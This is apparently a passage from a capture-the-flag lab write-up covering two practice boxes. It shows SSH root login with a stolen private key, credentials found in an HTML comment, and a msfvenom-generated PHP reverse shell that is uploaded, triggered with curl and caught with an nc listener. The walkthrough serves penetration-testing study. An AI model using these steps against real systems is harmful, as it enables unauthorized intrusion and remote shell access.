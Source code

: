 6. Privilege Escalation: since we have that id_rsa, we can use it to connect that target with ssh, just need to creat that file and change the mode for permissions:
```
└─$ vim id_rsa
└─$ chmod 600 ./id_rsa
└─$ ssh -i id_rsa root@192.168.218.82
...
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@geisha:~# id
uid=0(root) gid=0(root) groups=0(root)
root@geisha:~#
```

### JISCTF

1. Enumeration: run port scan found that only ssh and web on port 80 are open, scan them both found that ssh is on version 7.2p2, but since port 80 is open trying to take that fiest, on nmap it found the following directories from http-robots.txt file:
```
| / /backup /admin /admin_area /r00t /uploads
```
Checking on each found that curl admin_area give some page that contain comment about user and password:
```
└─$ curl http://192.168.218.25/admin_area/
<!--	username : admin
	password : 3v1l_H@ck3r
	Your flag is in another file...
-->
```
Going to the web root directory, authenticate and found index.php, then we can upload files, so since this is php page based we can upload reverse shell based php, first create that file with `msfvenom`:
```
└─$ msfvenom -p php/reverse_php lhost=192.168.45.203 lport=80 -f raw -o rs_x86_80.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3002 bytes
Saved as: rs_x86_80.php
```

2. Initiation: then upload the file, on other terminal open nc for listen on port 80 and curl that file, after that we should have reverse shell that no so interactive:
```
└─$ curl http://192.168.218.25/uploaded_files/rs_x86_80.php
```
```
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [192.168.45.203] from (UNKNOWN) [192.168.218.25] 39942
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
